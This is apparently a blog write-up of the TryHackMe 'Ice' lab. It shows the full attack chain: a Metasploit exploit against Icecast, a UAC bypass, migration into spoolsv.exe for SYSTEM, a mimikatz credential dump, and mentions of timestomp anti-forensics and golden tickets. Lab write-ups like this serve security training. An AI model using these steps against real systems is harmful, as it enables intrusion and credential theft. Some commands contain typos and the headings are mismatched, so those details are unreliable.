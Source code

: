 ```yaml
---
title: "ICE"
date: 2022-05-06 08:00:00 -0400
categories: [red-team]
tags: [red-team,thm]
image:
    path: /assets/img/posts/ice/thumbnail.jpeg
--- 
```


<style>
  .body {
    display:block;
  }
</style>

## Attacktive Directory

In this room we will be using the following tools to compromise a Domain Controller (DC) in order to gain access to the crown jewels of the environment:

**Tools Used:** Nmap, Kerbrute, Impacket, Enum4Linux, Hashcat, SMBClient, and Secretsdump

<a href="https://tryhackme.com/room/ice">TryHackMe Link</a>

To start doing some active recon on the machine we will use the following nmap command to find what port the Microsoft Remote Desktop (MSRDP) is running on:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -sS -Pn 10.10.10.104
```

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image1.png" alt=""></p>

The Microsoft Remote Desktop (MSRDP) is running on the standard port 3389.

Next, we are asked to identify what service is running on port 8000.  We will use an nmap command targeting that specific port:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -Sv - Pn -p 8000 10.10.10.104
```

The output of the nmap command tells us the port 8000 is running Icecast.

In order to get the hostname of the machine we will have to run a connect scan (-sC) parameter on our nmap scan:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ nmap -sC -Pn 10.10.10.104
```

he output from the nmap command tells us the name of the target PC is **DARK-PC**. 

We are asked to research a vulnerability with a CVSS score of 7.5 linked to the Icecast service running on port 8000.  

We are able to determine that the vulnerability type is **Execute Code Overflow** and the CVE is **CVE-2004-1561**

Next, we will want to see if there are any exploits that we can use within the metasploitable framework.  You will do this by putting in the following command:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ msfconsole
```

Now lets use the search feature within metasploit to find the exploit for this service using the following command:

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ search icecast
```

This output yield exactly what we want and the answer to the question is **exploit/windows/http/icecast_header**.  Now we will run the command use 0 to start using the exploit

We will use the command show options to see what settings we need to configure.  The only option that is blank is RHOSTS. In this case we will need to set RHOSTS (target machine) and LHOST (our Kali IP) which will be done using the set command as shown below. If you do not know how to get your VPN IP address, then open up another tab and type in the following command focusing on the output related to the tun0.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ ip a | grep tun 0
```

Now once those variables are set, run the command exploit (or run).  You should get a meterpreter shell if everything goes well.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ exploit
```

Now that we have a shell, in order to find out what permissions we have we will running the command getprivs.  This shows us we do have much permissions on this box and will need to escalate our permissions. 

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ getprivs
```

To get the user running the icecast process we will run the command getuid, which yields us the user **Dark**. 

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ getuid
```


To get the system information we will run the command sysinfo, which yields us the windows build 7601. The architecture of the processor is in the same output and is x64.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ sysinfo
```

Let us see if we can find any local exploits using the built in exploit suggester with metasploit running the command *run post/multi/recon/local_exploit_suggestor*

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ run post/multi/recon/local_exploit_suggestor
```

In our output we get windows exploit to bypass User Access Control (UAC) for Event Viewer.  The full path of the exploit is **exploit/windows/local/bypassuac_eventvwr**. In order to test this UAC bypass, let us background our current session by pressing CTRL+Z then hitting 'y' remembering the session number.


Now let us use the exploit with the following command

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ use windows/local/bypassuac_eventvwr
```

Run the show options command to see what we will need to configure for this exploit to work.  We will need to set an active meterpreter shell session and LHOST (Kali IP). Thne set our session variable to the background session number got a few steps back.  Now run the command exploit (or run) to get your session permission escalated.

Now if we run the command getprivs again we will notice we have a lot more permissions. The permission that allows us to take ownership of a file is SeTakeOwnershipPrivilege. Then running the ps command we will take advantage of the print spooler service spoolsv.exe running with SYSTEM permissions. We will run the command MIGRATE -N spoolsv.exe in an attempt to have our sessions run as SYSTEM under that print spooler service executable. Now if we run the command getuid we will ge the response that we are NT AUTHORITY\SYSTEM.

Now that we own this machine we want to use the tool mimikatz to get loot passwords for the environment. We will start by running the command load kiwi to start load the module

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ load kiwi
```

Using the help command we are able to see which mimikatz command is used to dump all credentials which is creds_all

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ creds_all
```

From the creds dump we are able to get the account Dark’s LM, NTLM and SHA1 hash as well as his password

In a windows environment the passwords are stored in the SAM database.  This database can be dumped with the command hashdump and can be used to crack the Administrator password without having to password spray. We have access to the following commands in the shell

* Screenshare command allows use to view the users desktop in real time
* Record mic command allows use record audio from the system mic for X amount of seconds.
* Modify timestamps of the files on the systems to complicate forensics we would use the command timestomp. 
* Mimikatz allows us to create a golden ticket which can be utilized to authenticate without having to use a password with the command below.

```shell
(brandon@kali)-[~/thm/attacktivedirectory]
$ golden_ticket_create
```

Since this is a Windows machine we can RDP to the machine if it is enabled.  If RDP is not enabled then it can be done with the metasploit module post/windows/manage/enable_rdp.  On this box the RDP service was already running.
